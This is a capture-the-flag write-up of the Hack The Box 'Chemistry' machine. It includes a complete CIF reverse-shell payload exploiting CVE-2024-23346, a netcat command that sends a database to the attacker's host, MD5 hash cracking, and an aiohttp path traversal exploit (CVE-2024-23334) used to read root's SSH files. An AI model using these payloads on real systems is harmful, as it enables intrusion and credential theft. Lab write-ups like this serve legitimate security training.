

Chemistry was an interesting box that involved exploiting a vulnerable web application handling CIF files.
By leveraging CVE-2024-23346, I gained initial access through a crafted payload.
After obtaining database credentials and cracking weakly hashed passwords, I secured SSH access.
Privilege escalation was achieved by exploiting an outdated aiohttp service (CVE-2024-23334), ultimately leading to root.
This box highlighted the dangers of insecure file parsing, weak password hashing, and outdated dependencies.

# User flag

Initial nmap scan reveals just two ports. SSH on 22 and a werkzeug server on port 5000.


First glance over the website provides me with an unknown to me file type. A CIF file.
I will do some research to see what exactly is a CIF file, and how it can useful for me.

After some searching, I stumbled upon a CVE numbered as 2024-23346.

https://nvd.nist.gov/vuln/detail/CVE-2024-23346
https://www.vicarius.io/vsociety/posts/critical-security-flaw-in-pymatgen-library-cve-2024-23346


I'll register and login as `test1:test1`


I can grab the example file here. It'll help me structure the payload for a reverse shell.

```
#Example file

data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```
And this is my payload:

```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/10.10.16.52/9001 0>&1\'");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```


It worked! I can now proceed and look through the files. I'll look for a database file, hoping to grab some credentials and secure an SSH connection.

In the instance directory, I found a database file. I'll send it over to my machine with netcat.

```
Chemistry-machine: cat instance/database.db | nc (IP) (PORT)

My-machine nc -lp (PORT) < database.db
```

Note: There is no indication nor any sign that the transfer was complete. Leave the connection ongoing for approx. 3 minutes, even if it seems like it hung up and then feel free to close it.


There are a lot of users in the database file. I'll grab the first 14, since every account below that seems to be user-made(Other HTB players).

I'll save the file as users.txt, then I'll extract only the hashes using awk and I'll save them into creds.txt.

```
awk -F'|' '{print$3}' users.txt > hashes.txt
```

During my recon on the box after getting the shell, I saw this while reading through the app.py file.

```
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        user = User.query.filter_by(username=username).first()
        if user and user.password == hashlib.md5(password.encode()).hexdigest():
            login_user(user)
            return redirect(url_for('dashboard'))
        flash('Invalid credentials')
    return render_template('login.html')
```


Since the application uses MD5 hashing for passwords, cracking them with Hashcat is trivial. MD5 has been deprecated for security purposes due to its weaknesses, making this an easy attack vector.


I've got passwords for users rosa, carlos, peter and victoria. However, only rosa exists on  the machine. This can be checked right after receiving back the reverse shell.


There is also no mention of any blockades or blacklists in the config file of ssh. I'll try to SSH into the box as rosa.


# Privilege escalation

I'll check for active ports using ss with the flags -tulnp.


The service running on port 8080 interests me. I'll check what is running there via curl.

```
curl localhost:8080 --head
```


I searched for exploits for this version of aiohttp, and found one rather quickly. Im going to use CVE-2024-23334 in order to find something that'll allow me to gain root access to the box.

https://github.com/wizarddos/CVE-2024-23334

I cloned this repo onto my box and started up a python server, so that I could download exploit.py onto the chemistry machine via wget.

```
python3 exploit.py -u http://127.0.0.1:8080/ -f /root/.ssh/authorized_keys -d assets
```


Perfect! This private key will allow me to SSH into the box as root!
I'll copy the entire key into a file on my box.
```
echo 'key' > keyfile.pem
```

Before trying to connect, however, I'll use the command 'chmod' with parameter '600' on the keyfile, because SSH does not like keys with loose permissions.


Rooted!
